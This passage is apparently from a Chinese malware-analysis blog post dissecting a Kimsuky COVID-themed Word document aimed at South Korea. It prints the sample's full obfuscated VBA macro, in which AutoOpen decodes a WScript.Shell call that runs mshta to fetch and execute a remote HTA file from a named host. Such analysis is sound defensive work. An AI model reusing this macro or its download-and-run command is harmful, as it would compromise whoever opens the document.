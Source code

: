 样本md5：A9DAC36EFD7C99DC5EF8E1BF24C2D747<br>
该doc是2月份KimSuky利用疫情对韩国进行网络攻击的样本。红雨滴在 [COVID-19 | 新冠病毒笼罩下的全球疫情相关网络攻击分析报告](https://twitter.com/cyberwar_15/status/1232989735011794945)中对该样本有概要的分析。

使用olevba分析下样本的宏代码如下：

[![](https://p1.ssl.qhimg.com/t01833c93059eb9620d.png)](https://p1.ssl.qhimg.com/t01833c93059eb9620d.png)

olevba分析到了一个完整的请求路径[http://vnext.mireene.com/theme/basic/skin/member/basic/upload/search.hta](http://vnext.mireene.com/theme/basic/skin/member/basic/upload/search.hta)

dump出来的完整vba代码如下

```
Const wwfxmpquap = 0
Private Function uvwycgyhqtmt(ByVal zjkvoxjeyiqc As String) As String

Dim tkwzqharcnkh As Long
For tkwzqharcnkh = 1 To Len(zjkvoxjeyiqc) Step 2
uvwycgyhqtmt = uvwycgyhqtmt &amp; Chr$(Val("&amp;H" &amp; Mid$(zjkvoxjeyiqc, tkwzqharcnkh, 2)))
Next tkwzqharcnkh
End Function

Sub psjmjmntntn(kmsghjrsxteynvkbz As String)
With CreateObject(uvwycgyhqtmt("5753637269") &amp; uvwycgyhqtmt("70742e5368656c6c"))
.Run kmsghjrsxteynvkbz, wwfxmpquap, True
End With
End Sub

Sub AutoOpen()
With ActiveDocument.Background.Fill
.ForeColor.RGB = RGB(255, 255, 255)
.Visible = msoTrue
.Solid
End With
Selection.WholeStory
Content = uvwycgyhqtmt("6d7368746120687474703a2f2f766e6578742e6d697265") &amp; uvwycgyhqtmt("656e652e636f6d2f7468656d652f62617369632f736b696e2f6d656d6265722f62617369632f75706c6f61642f7365617263682e687461202f66")
Selection.Font.Hidden = False
psjmjmntntn (Content)
Selection.Collapse
ActiveDocument.Save
End Sub
```

这里很明显uvwycgyhqtmt是解密函数，解密函数的定义在vba代码最上面

解密出在olevba里面看到的下载地址

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t017bc5e24f2654846b.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t014c2bc5e0e4ae17fa.png)
